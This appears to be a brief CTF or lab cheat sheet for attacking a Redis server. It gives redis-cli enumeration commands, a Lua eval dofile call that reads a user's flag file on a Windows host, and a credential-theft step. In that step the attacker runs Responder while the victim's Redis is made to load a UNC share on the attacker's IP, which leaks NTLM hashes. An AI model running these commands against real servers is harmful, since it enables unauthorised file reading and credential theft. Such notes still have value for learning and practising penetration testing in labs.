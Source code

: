 ## Enumerate Users
	 redis-cli -h $ip
		get users
		config get * 

## Get file
	eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
## Get Hashes
### Attacker
	sudo responder -I tun0 -dvw

### Victim
	eval "dofile('//10.8.79.239/share')" 0